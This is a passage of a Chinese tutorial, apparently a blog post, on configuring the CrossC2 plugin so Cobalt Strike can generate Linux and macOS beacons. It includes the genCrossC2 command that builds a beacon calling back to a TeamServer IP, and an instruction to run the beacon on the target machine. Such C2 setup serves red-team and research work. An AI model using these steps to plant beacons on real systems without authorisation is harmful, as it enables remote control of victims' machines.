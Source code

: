 
找到CrossC2.cna文件，在`src/`目录下，修改该文件中的两项值。

    
    
    $CC2_PATH = "/Users/xxx/Desktop/Tools/cs_plugin/CrossC2/2.2.2/src"; # 这里填src目录的绝对路径  
    $CC2_BIN = "genCrossC2.MacOS"; # 根据系统类型进行配置,对应src目录下的genCrossC2.XXX那三个文件的名字

将TeamServer上的`.cobaltstrike.beacon_keys`文件下回到本地，之后会用上(我这里将文件名前边的点去掉了)。

![](https://gitee.com/fuli009/images/raw/master/public/20210805100030.png)

启动你的TeamServer， **这里先不要带上C2-Profile去启动。  
**

![](https://gitee.com/fuli009/images/raw/master/public/20210805100031.png)

 ****  

将`CrossC2.cna`文件加载到CobaltStrike中，之后创建`Https`监听器。  

![](https://gitee.com/fuli009/images/raw/master/public/20210805100032.png)

生成Beacon，命令如下(如果你是Windows那就是genCrossC2.Win.exe)。

`./genCrossC2.MacOS [TeamServer的IP] [HTTPS监听器端口]
[.cobaltstrike.beacon_keys文件路径] [自定义的动态链接库文件] [运行Beacon的平台] [运行Beacon的平台位数]
[输出的结果文件]`

    
    
    ./genCrossC2.MacOS 192.168.225.24 1443 cobaltstrike.beacon_keys null Linux x64 ./test  
    

将生成的Beacon放到目标机器上去执行即可

![](https://gitee.com/fuli009/images/raw/master/public/20210805100033.png)

  

此时你的TeamServer即可支持Windows、Linux...

![]()

# 存在的问题

上述操作是未带C2-Profile，实战里相信没有师傅会不带C2-Profile就直接冲吧！

![](https://gitee.com/fuli009/images/raw/master/public/20210805100034.png)

直接带上C2-Profile，CrossC2所生成的Beacon可能无法上线也可能是上线了执行不了命令（这里可以自己尝试一下）。因此CrossC2提供通信协议API的方式来解决该问题。

# 一些铺垫

在进入正题之前感觉有必要铺垫以下知识点

## 有Profile与无Profile对比
